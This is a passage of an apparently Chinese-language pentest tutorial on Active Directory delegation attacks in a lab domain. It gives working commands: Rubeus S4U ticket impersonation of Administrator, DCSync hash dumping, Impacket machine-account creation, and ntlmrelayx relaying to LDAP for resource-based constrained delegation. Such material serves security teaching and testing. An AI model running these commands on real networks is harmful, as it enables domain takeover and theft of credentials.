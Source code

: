 ![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331220856516.png)

（5）然后执行以下命令，使用 S4U2Self 扩展代表域管理员 Administrator 请求针对域控 LDAP 服务的票证，并将得到的票证传递到内存中，执行结果如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:LDAP/DC01.pentest.com /dc:DC01.pentest.com /ptt /ticket:<Base64EncodedTicket>
```

![](/assets/posts/2022-03-12-domain-delegation-attack/UQ7epNm1h8nzDVE.png)
![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/iMS6EJnGm3HZAew.png)

（6）此时执行 DCSync，可以成功导出域内用户哈希，如下图所示。

![](/assets/posts/2022-03-12-domain-delegation-attack/image-20220331190944631.png)
### NTLM Relay + RBCD

前面我们介绍了基于资源的约束性委派的一般利用过程，一个很关键的条件就是当前所控的用户必须对 Service 2 拥有 GenericAll、GenericWrite、WriteProperty 或 WriteDacl 等权限，否则将无法修改并设置其 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性。然而，在 NTLM Relay 中，通过 Relay To LDAP 可以直接修改活动目录中的属性值，如果我们控制一个机器账户通过 NTLM Relay 认证到 LDAP，毫无疑问该机器账户能够直接修改并设置自己的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性。

下面我对 NTLM Relay 结合 RBCD 的攻击过程进行演示，测试环境如下，并假设已经获取到了 Marcus 用户的凭据。

- 域：pentest.com
- 域控制器
  - 主机名：DC01
  - IP 地址：172.26.10.11
- 域内服务器
  - 主机名：WIN2016-WEB1
  - IP 地址：172.26.10.13
- 域管理员用户：Administrator
- 普通用户：Marcus
- Kali Linux 
  - IP 地址：172.26.10.134

（1）首先，通过 [Impacket](https://github.com/SecureAuthCorp/impacket) 套件中的 addcomputer.py 工具，以普通域用户 Marcus 的身份在域中添加一个名为 PENTEST$ 的机器账户，密码为 Passw0rd，相关命令如下，执行结果如下图所示。

```bash
python3 addcomputer.py pentest.com/Marcus:Marcus\@123 -computer-name PENTEST\$ -computer-pass Passw0rd -dc-ip 172.26.10.11

# -computer-name 指定要创建的机器账户名
# -computer-pass 指定要创建的机器账户密码
```

![](/assets/posts/2022-03-12-domain-delegation-attack/jPNMZJx4pKHzU7f.png)

（2)执行以下命令，在 Kali Linux 上启动 ntlmrelayx.py 监听，如图下所示。

```bash
python3 ntlmrelayx.py -t ldap://172.26.10.11 --remove-mic --delegate-access --escalate-user PENTEST\$ -smb2support
```
